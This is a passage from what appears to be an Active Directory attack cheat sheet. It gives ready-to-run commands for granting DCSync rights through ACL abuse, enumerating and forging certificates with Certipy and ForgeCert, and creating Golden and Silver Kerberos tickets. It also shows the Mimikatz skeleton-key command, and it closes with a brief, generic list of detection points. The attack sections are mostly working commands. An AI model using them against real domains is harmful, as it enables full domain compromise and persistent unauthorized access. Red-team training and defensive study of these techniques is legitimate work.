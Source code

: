 ### ACL Abuse
```powershell
# Using PowerView
Add-DomainObjectAcl -TargetIdentity "CN=user,CN=Users,DC=domain,DC=com" -PrincipalIdentity "CN=attacker,CN=Users,DC=domain,DC=com" -Rights DCSync

# Using PowerSploit
Invoke-ACLScanner -ResolveGUIDs
```

### Certificate Attacks
```bash
# Using Certipy
certipy find -u user@domain.com -p password -dc-ip 10.10.10.10

# Using ForgeCert
ForgeCert.exe --CertPath cert.pem --KeyPath key.pem --SavePath forged.pfx --Password password
```

## Persistence Techniques

### Golden Ticket
```bash
# Creating persistent access
python3 ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com -user-id 500 Administrator
```

### Silver Ticket
```bash
# Service ticket creation
python3 ticketer.py -nthash service_hash -domain-sid domain_sid -domain domain.com -spn service/target.domain.com Administrator
```

### Skeleton Key
```bash
# Using Mimikatz
mimikatz # misc::skeleton
```

## Detection and Mitigation

### Detection Techniques
1. **Event Log Monitoring**
   - Failed authentication attempts
   - Privilege escalation events
   - Unusual network activity

2. **Network Monitoring**
   - Kerberos ticket anomalies
   - SMB traffic analysis
   - LDAP query monitoring

